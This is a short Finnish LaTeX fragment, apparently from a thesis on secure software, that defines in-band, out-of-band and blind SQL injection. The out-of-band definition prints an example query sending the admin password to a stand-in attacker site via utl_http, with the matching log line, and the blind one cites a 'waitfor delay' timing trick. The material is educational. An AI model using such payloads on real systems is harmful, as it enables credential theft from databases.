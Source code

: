 \documentclass[finnish]{tktltiki2}
\theoremstyle{definition}
\theoremstyle{remark}
\begin{document}
	\begin{description}
		\item[Inband injektio] \hfill \\
		Kun SQL-injektion tuloste saadaan samaa reittiä kun se on syötetty, on kyseessä inband injektio. Esimerkiksi jos sovelluksessa on mahdollista hakea lista tuotteista jotka ovat maasta jonka käyttäjä antaa kyselyssä.
		
		\item[Out-of-band injektio] \hfill \\
		Kun SQL-Injektion tuloste saadaan eri reittiä kun se on syötetty, on kyseesä out-of-band injektio. Web-sovellus saattaa esimerkiksi tallettaa tietokantaansa millä selaimilla sitä on käytetty. Selaintiedot haetaan HTTP pyynnön "User-Agent" kentästä. Hyökkääjä voi asettaa SQL-injektion User-Agent kenttäänsä. Todennäköisesti hyökkääjä ei näe kyselyn tulosta kyselyn palauttamalla sivulla. Hyökkääjän voi ohjata tulokset itselleen esimerkiksi suorituttamalla injektiossa haun:
		
		\begin{lstlisting}[language=sql]
		utl_http('http://www.hyokkaajansivu.fi/injections/' || 
		SELECT password
		FROM User 
		WHERE username = 'admin'
		)
		\end{lstlisting}
		Injektion onnistuessa hyökkääjän palvelimen logeissa näkyy esimerkiksi:
		
		\begin{lstlisting}
		GET "/injections/admininpassword", 200
		\end{lstlisting}
		
		Tällöin hyökkääjä saa selville käyttäjän admin salasanan.
		
		\item[Sokea injektio] \hfill \\
		Sokea injektio:
		Hyökkääjä ei saa minkäänlaista palautetta sovellukselta. Hyökkääjä voi kuitenkin kokeilla muokata sovelluksen tietoja ja tarkastella vaikuttaako se sovellukseen. Hyökkääjä voi käyttää apunaan sitä kuinka nopeasti sivu latautuu. Lisäämällä injektoituun sql-käskyyn komennon "waitfor delay 0:0:5", tietokanta odottaa 5 sekuntia ennen kuin se palauttaa tuloksen. Tästä voidaan päätellä injektion onnistuneen. \cite{regexp}
		
		
	\end{description}
	
	
	\section {Tietoturvallisen ohjelman toteutus}
\end{document}
